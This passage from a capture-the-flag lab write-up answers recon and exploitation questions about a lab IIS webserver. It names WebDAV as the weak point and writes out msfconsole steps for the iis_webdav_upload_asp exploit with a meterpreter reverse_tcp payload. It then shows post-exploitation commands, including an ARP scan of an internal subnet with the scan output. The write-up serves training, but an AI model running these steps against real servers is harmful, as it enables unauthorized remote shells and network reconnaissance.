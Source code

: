 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds</pre>

===KPASRF 5===
What administration module is enabled on this webserver, which could allow a remote user to upload or modify files?

WebDAV

===KPASRF 6===
What is the name of a Metasploit module that could exploit one of the discovered flaws in this webserver?

iis_webdav_upload_asp

===RECON 1===
Exploit onto the KPASRF webserver and get a shell.

What is the contents of the text file in the C:\ directory?

"This machine to be decomissioned on April 1 2014."

Use iis_webdav_upload_asp as described here: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/iis/iis_webdav_upload_asp.md

Steps in msfconsole:

<pre>> use exploit/windows/iis/iis_webdav_upload_asp
> set payload windows/meterpreter/reverse_tcp
> set RHOST 192.168.51.66
> set LHOST 10.13.0.150
> exploit</pre>

==RECON Challenges==

===Recon 2===
What domain is this machine a part of?

DPRK.CTF

run systeminfo from meterpreter

===Recon 3===
Including the machine that you're currently on, how many hosts are in the 192.168.100.0/24 subnet

7 (not counting the .255 entry below, I guess?)

<pre>meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24

[*] Running module against KPASRF-INTERNET
[*] ARP Scanning 192.168.100.0/24
[+]     IP: 192.168.100.1 MAC 00:50:56:bd:b2:00 (VMware, Inc.)
[+]     IP: 192.168.100.15 MAC 50:57:4e:17:01:02 (UNKNOWN)
[+]     IP: 192.168.100.10 MAC 50:57:4e:17:01:01 (UNKNOWN)
[+]     IP: 192.168.100.20 MAC 50:57:4e:17:01:04 (UNKNOWN)
[+]     IP: 192.168.100.25 MAC 50:57:4e:17:01:03 (UNKNOWN)
[+]     IP: 192.168.100.240 MAC 50:57:4e:17:01:0a (UNKNOWN)
[+]     IP: 192.168.100.250 MAC 50:57:43:17:01:05 (UNKNOWN)
[+]     IP: 192.168.100.255 MAC 50:57:4e:17:01:0a (UNKNOWN)</pre>

